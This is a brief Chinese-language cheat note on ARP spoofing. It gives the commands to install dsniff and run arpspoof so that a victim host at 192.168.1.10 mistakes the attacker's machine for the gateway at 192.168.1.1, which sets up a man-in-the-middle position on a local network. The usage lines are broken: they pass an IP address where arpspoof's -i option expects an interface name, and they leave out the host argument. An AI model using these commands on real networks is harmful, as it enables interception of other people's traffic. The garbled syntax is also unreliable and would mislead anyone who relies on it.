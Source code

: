 # ARP

工具：arpspoof

```shell
sudo apt-get install dsniff  # 安装
arpspoof -i 要伪装的IP -t 要欺骗的 IP # 使用
arpspoof -i 192.168.1.1 -t 192.168.1.10  # 10的主机会把我们的攻击机的地址当成 1的主机
```